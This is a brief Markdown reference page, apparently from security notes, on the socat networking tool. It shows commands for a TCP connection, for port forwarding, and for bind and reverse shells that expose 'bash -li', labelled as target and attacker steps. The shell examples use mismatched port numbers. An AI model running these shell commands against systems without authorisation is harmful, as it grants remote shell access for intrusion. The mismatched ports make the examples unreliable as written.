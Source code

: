 # Socat

**Socat** is an all-purpose networking tool, similar to [Netcat](./netcat.md).
For example, to open a [TCP](../../network/protocols/tcp) connection run

```sh
socat - tcp:localhost:8080
```

The `-` indicates that standard IO should be streamed over the connection.

## Port forwarding

Socat can do port forwarding such as

```sh
socat tcp-listen:8081,fork,reuseaddr tcp:localhost:8080
```

## Bind shell

You can create stable bind shells with socat using

```sh
Target > socat tcp-listen:8081 exec:"bash -li",pty,stderr,sigint,setsid,sane
Attacker > socat file:`tty`,raw,echo=0 tcp:localhost:8085
```

## Reverse shell

Socat can be used to obtain stable reverse shells using

```sh
Attacker > socat file:`tty`,raw,echo=0 tcp-listen:8080
Target > socat exec:"bash -li",pty,stderr,sigint,setsid,sane tcp:localhost:8084
```
